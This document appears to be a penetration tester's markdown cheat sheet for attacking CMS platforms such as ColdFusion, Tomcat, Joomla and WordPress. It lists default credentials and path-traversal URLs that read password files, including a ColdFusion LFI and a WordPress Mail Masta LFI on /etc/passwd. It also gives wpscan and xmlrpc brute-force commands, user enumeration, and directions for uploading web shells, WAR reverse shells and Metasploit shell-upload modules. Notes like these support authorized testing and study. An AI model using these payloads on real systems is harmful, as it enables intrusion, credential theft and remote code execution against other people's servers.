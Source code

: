 # CMS Specific Vulnerabilities and Exploits    
### Default Creds 

    https://cirt.net/passwords
    https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
    
### Adobe Coldfusion 
https://nets.ec/Coldfusion_hacking   
https://www.drchaos.com/post/a-walk-down-adversary-lane-coldfusion-v8

    Metasploit - Determine version
    /CFIDE/adminapi/base.cfc?wsdl
    Version 8 Vulnerabilities
    Fckeditor: use exploit/windows/http/coldfusion_fckeditor

LFI 

    http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

### Elastix 

    default login are admin:admin at /vtigercrm/
    able to upload shell in profile-photo
    Examine configuration files - Generic
    Examine httpd.conf/ windows config files 
    
### Drupal
[droopsescan](https://github.com/droope/droopescan) 

    /CHANGELOG.txt to find version

### JBoss

    JMX Console http://IP:8080/jmxconcole/
    WAR File payload   

### Jenkins
[pwn jenkins](https://github.com/Scr1ptK1ddie/pwn_jenkins)   

### Joomla 

    admin page: /administrator
    other pages: configuration.php, diagnostics.php, joomla.inc.php, config.inc.php   
    
### PHPMyAdmin

    Default password root:root, pma:
    Brute force with Burp or phpmyadmin python script

### Tomcat 

    Usually port 8080, /manager
    default creds tomcat:s3cret
    generate WAR reverse shell payload, upload and deploy 
    
### Wordpress  
https://github.com/wpscanteam/wpscan/wiki/WordPress-Plugin-Security-Testing-Cheat-Sheet    
https://raphaelrichard-sec.fr/learning-notes/hacking-wordpress     
[Hacking Wordpress Notes](https://github.com/cyberteach360/Hacking-Wordpress)    
.wp-config.php.swp exploit - https://ritcsec.wordpress.com/2020/04/28/how-i-accidentally-discovered-cve-2017-17087-2/         

    admin and login pages:  /wp-admin    /wp-login     /wp-admin/login.php   /login.php    /wp-login.php     
    config files:  /setup-config.php   /wp-config.php    
    curl http://10.10.10.10/wordpress/ | grep 'content="WordPress'  #get WordPress version   
    curl -s -X GET http://10.10.10.10/wordpress | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2    #get plugins     
    curl -s -X GET http://10.10.10.10 | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2   #get themes    
    curl http://10.10.10.10/wp-json/wp/v2/users | jq    #user enum   
wpscan 
Register for a free account and get an API token from https://wpscan.com/    

    wpscan --url <domain>
    wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
    wpscan --url <domain> --enumerate u (Usernames)       #or zoom.py 
    wpscan --url <domain> --enumerate v      
    wpscan --url http://10.10.10.10/wordpress --enumerate --api-token <API_TOKEN>
    wpscan -u 192.168.0.15 --enumerate -t --enumerate u --enumerate p      

Bruteforce login page with wpscan   
Xmlrpc method is usually faster (if enabled)       

    wpscan –u ipaddress --usernames name_list --wordlist wordlist    
    wpscan --password-attack xmlrpc -t 20 -U admin, username -P passwords.txt --url http://10.10.10.10           


Xmlrpc.php - if enabled you may be able to use this to brute force creds. Send the below request to check    
If wp.getUserBlogs, wp.getCategories or metaWeblog.getUsersBlogs are available - can brute force    
Ref: https://gist.github.com/georgestephanis/5681982    
```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 10.10.10.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Upgrade-Insecure-Requests: 1
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```   
Vulnerable Mail Masta Plugin Exploit        

    curl http://10.10.10.10/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd     
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd    
    
RCE via Theme Editor using Admin Creds    
Login, select Appearance on the side panel and select Theme Editor to modify the PHP source code. Select an inactive theme to avod breaking the main theme.       

    exploit/unix/webapp/wp_admin_shell_upload    #metasploit exploit   
